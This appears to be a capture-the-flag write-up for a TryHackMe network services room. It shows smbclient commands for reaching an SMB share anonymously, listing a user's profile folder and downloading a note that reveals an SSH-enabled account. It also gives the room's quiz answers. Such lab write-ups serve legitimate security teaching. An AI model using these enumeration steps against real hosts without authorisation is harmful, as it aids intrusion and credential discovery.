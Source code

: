 **Got it? Okay, let's do this!**

1. What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

`smbclient //10.10.10.2/secret -U suit -p 139`

2. Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability.

```
kali@kali:~/CTFs/tryhackme/Network Services$ smbclient //10.10.78.132/profiles
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \>
```

`No answer needed`

3. Lets see if our interesting share has been configured to allow anonymous access, I.E it doesn't require authentication to view the files. We can do this easily by:

- using the username "Anonymous"
- connecting to the share we found during the enumeration stage
- and not supplying a password.

Does the share allow anonymous access? Y/N?

`Y`

4. Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

```
smb: \> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 12:49:56 2020
  .cache                             DH        0  Tue Apr 21 13:08:23 2020
  .profile                            H      807  Tue Apr 21 13:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 13:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 13:08:23 2020
  .viminfo                            H      947  Tue Apr 21 13:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 13:08:23 2020
  .ssh                               DH        0  Tue Apr 21 13:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 13:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 13:08:23 2020

                12316808 blocks of size 1024. 7583776 blocks available
smb: \> get "Working From Home Information.txt"
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (2.4 KiloBytes/sec) (average 2.4 KiloBytes/sec)
```

```
kali@kali:~/CTFs/tryhackme/Network Services$ cat Working\ From\ Home\ Information.txt 
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager
```
